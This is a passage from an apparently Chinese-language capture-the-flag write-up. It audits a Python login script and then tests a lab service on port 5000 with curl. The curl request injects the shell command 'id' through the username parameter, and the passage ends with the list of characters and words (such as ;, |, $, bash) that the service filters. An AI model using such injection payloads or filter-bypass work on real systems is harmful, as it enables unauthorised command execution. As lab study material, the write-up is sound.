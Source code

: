 其中 *source* 的文件内容如下：

```python
import re
from time import sleep
import requests

URL = "http://{}:5000/?username={}&password={}"
def check_ip(ip: str):
    """
    Check whether the input IP is valid or not
    """
    if re.match(r'^(?:(25[0-5]|2[0-4][0-9]|1[0-9][0-9]|[1-9][0-9]|[0-9])'
                '(\.(?!$)|$)){4}$', ip):
        return True
    else:
        return False
def catcher(host, username, password):
    try:
        url = URL.format(host, username, password)
        requests.post(url)
        sleep(3)
    except Exception:
        pass
    print("Unable to connect to the server!!")
def main():
    print("If you have this then congratulations on being a part of an awesome organization")
    print("This key will help you in connecting to our system securely.")
    print("If you find any issue please report it to ugtan@djinn.io")
    ip = input('\nIP of the machine: ')
    username = input('Your username: ')
    password = input('Your password: ')
    if ip and check_ip(ip) and username == "REDACTED" and password == "REDACTED":
        print("Verifiying %s with host %s " % (username, ip))
        catcher(ip, username, password)
    else:
        print("Invalid IP address given")
if __name__ == "__main__":
    main()
```

简单代码审计发现该脚本是监听**5000**端口，此外接收客户端 **POST** 方法传来的`username`和`password`，不过也没有看到后续操作了。总之，我们使用 `curl` 工具发包进行测试一下。

```shell
┌──(root💀kali)-[~]
└─# curl -X POST http://192.168.174.134:5000/?username=id\&password=gg
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

可以看到服务器将会执行提交的 `username` 值，因此存在命令注入漏洞，尝试后发现脚本过滤了一些特殊字符：

```shell
$
^
*
|
;
bash
bin
```
